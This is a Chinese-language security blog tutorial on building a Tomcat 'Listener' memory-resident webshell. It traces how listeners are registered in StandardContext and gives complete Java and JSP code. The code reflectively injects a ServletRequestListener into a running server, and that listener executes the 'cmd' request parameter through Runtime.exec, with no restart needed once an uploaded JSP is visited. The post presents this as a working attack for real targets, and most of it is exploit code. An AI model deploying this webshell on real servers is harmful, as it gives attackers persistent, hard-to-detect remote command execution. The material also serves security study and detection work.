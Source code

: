 ```yaml
---
layout: post
date: 2025-5-15
title: "Tomcat-Listener-内存马"
author: "XinYiSleep"
category: Java
---
```

<h1 id="GT0vV">一.基础信息</h1>

```
在上一篇文章中我们已经简单的了解了一下Listener了，那么首先能考虑被作为内存马的是ServletRequestListener：对请求对象的初始化和销毁进行监听
说人话就是每次请求的时候就是初始化，请求结束销毁，这一技术主要在Servlet3.0之后，并且呢tomcat7.x及以上才可以用，因为tomcat7.x在支持Servlet3.0，
为了方便调试我们添加包(代码一)，原因很简单你不加根本进不去(图一)。
懂点的可以先看一下图二。
```

```java
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.100</version>
</dependency>
```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/1.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/0.png)

<h1 id="Djyi0">二.动态注册</h1>

```
我们得知请求任意url的时候会被执行到监听器，首先这个监听器在写入之后需要重启才能生效,那么在实战中
我们不可能去修改代码更不可能重启别人服务，那么就需要动态注册，大致就是分析一下正常的Listener是怎么的一个过程，废话不多说，
首先我们需要创建一个恶意的Listener(代码一),在其中打上断点(图一)，走进StandardContext类中fireRequestInitEvent方法(图二)，
接着一直往上跟看看从哪里获取到了ListenerWeblshell的实例，在第一行getApplicationEventListeners方法中获取到了，那么看看是什么(图三,图四)，
得知他是一个类中的属性的话，那么需要修改他先看看有那么有Setter,发现是有的(图五)，到这里其实就已经结束了，现在我们的目的就是需要通过这个Setter进行动态注册打成目的。
```

```java
package com.example.webshell1;
import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Field;

@WebListener
public class ListenerWeblshell implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("销毁");
    }
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        HttpServletRequest servletRequest = (HttpServletRequest)sre.getServletRequest();
        String cmd = servletRequest.getParameter("cmd");
        if (cmd!=null){
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
        
    }
}

```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/2.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/3.5png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/3.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/4.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/5.png)

```
在上面我们得知存在setApplicationEventListeners和addApplicationEventListener都可以修改，
我们先用addApplicationEventListener，现在的问题是如何拿到StandardContext实例，
那我们往上推看看谁调用了StandardContext他是怎么拿到的(图一)，那我们就模拟他就行了问我具体干啥了一切不知道也不需要管他，
(代码一,图二)，那你就要问了，你这是个锤子内存马呀，图二中已经创建一个新的Litsener,你就算添加进去有什么用这不冗余了吗？
而且还需要改java代码你这不是天方夜谭吗？没错下面我们就要想到的攻击面了，如果说存在文件上传的情况下我们是否可以在JSP中进行操作呢？
答案是可以的因为JSP中九大核心内置对象中刚好有request(可以看上一篇文章简单了解一下)，
```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/6.png)

```java
package com.example.webshell1;

import org.apache.catalina.Context;
import org.apache.catalina.connector.Request;
import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Field;

@WebListener
public class ListenerWeblshell implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("销毁");
    }
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        //拿到StandardContext实例
        Request Reques = (Request)sre.getServletRequest();
        StandardContext context = (StandardContext)Reques.getContext();
        //修改添加我们的Listener
        TestListener testListener = new TestListener();
        context.addApplicationEventListener(testListener);
    }
}
```
![](https://xinyisleep.github.io/img/2025/Webshell/Listener/7.png)

<h1 id="cZYlj">三.完整Listener内存马</h1>

```
首先获取org.apache.catalina.connector.Request的实例，在JSP中request是org.apache.catalina.connector.RequestFacade他实现了HttpServletRequest(图一,图二)，
但是存在一个request属性刚好类型是Request(图三)，通过反射获取request，之后取出org.apache.coyote.Request，
强制转换成StandardContext对象，执行addApplicationListener，完整exp(代码一),访问这个JSP文件之后会添加一个新的Listener到ApplicationEventListener，
重新请求的时候getApplicationEventListeners就已经有我们的Listener了，到这里还是有点绕的可以手动测试看看，要是这都没理解那我也无能为力了，
这已经是手把手了，好了其实还是蛮简单的，下期见(冲冲冲)。

```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/8.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/8.5.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/9.png)

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>


<%!
    public class TestListener implements ServletRequestListener {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
        }
        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest servletRequest = (HttpServletRequest)sre.getServletRequest();
            String cmd = servletRequest.getParameter("cmd");
            if (cmd!=null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    throw new RuntimeException(e);
                }
            }
        }
    }
%>

<%
    //获取org.apache.coyote.Request实例
    //request实际上是org.apache.catalina.connector.RequestFacade他实现了HttpServletRequest
    Field request1 = request.getClass().getDeclaredField("request");
    request1.setAccessible(true);
    //上面获取了request属性取出org.apache.coyote.Request
    Request o = (Request)request1.get(request);
    //强制转换成StandardContext对象，执行addApplicationListener
    StandardContext context = (StandardContext)o.getContext();
    context.addApplicationEventListener(new TestListener());
%>

```
```
下面就是刚刚那个Setter,其实也很简单但是尽量不要用因为他会覆盖掉所有的Listener这就很恶心,其实就多了一行代码。
```
```
Object listeners[]={new TestListener()}; //这种写法导致了覆盖了所有的Listener,导致只能执行这一个监听器
context.addApplicationEventListener(listeners);
```

